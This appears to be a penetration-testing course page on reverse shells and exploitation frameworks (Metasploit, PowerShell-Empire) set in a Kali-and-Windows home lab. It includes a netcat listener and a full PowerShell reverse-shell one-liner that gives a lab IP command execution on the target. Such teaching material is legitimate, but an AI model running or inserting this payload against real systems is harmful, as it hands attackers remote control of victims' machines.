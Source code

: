 📌 [Reverse Shell Generator](https://www.revshells.com/)

![](.gitbook/assets/image-20230423230905165.png)

**`e.g.`**

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](.gitbook/assets/image-20230423232446632.png)

## Exploitation Frameworks

### [The Metasploit Framework](3-metasploit.md)

- Focus on the **Exploitation** phase
- Modular
- MSF turns the exploit code into a module, using the `Ruby` programming language

> 🔬 Check the [Workflow Platform Lab here](4-exploitation/workflow-exp.md)

### [PowerShell-Empire](https://github.com/BC-SECURITY/Empire)

**`Empire`** - PowerShell post-exploitation framework for Win, Linux and macOS

> *Empire is a post-exploitation and adversary emulation framework that is used to aid Red Teams and Penetration Testers. The Empire server is written in Python 3 and is modular to allow operator flexibility. Empire comes built-in with a client that can be used remotely to access the server. There is also a GUI available for remotely accessing the Empire server, [Starkiller](https://github.com/BC-SECURITY/Starkiller).*

- PowerShell-Empire is primarily designed for Windows targets
- **`Starkiller`** - GUI frontend for `PowerShell-Empire`
- [Kali Linux install](https://www.kali.org/tools/powershell-empire/)

```bash
sudo apt update && sudo apt install -y powershell-empire
```

> 🔬 Home Lab based on a Kali Linux attacker VM and Win7 target VM with IP `192.168.31.131`

```bash
sudo powershell-empire server
```
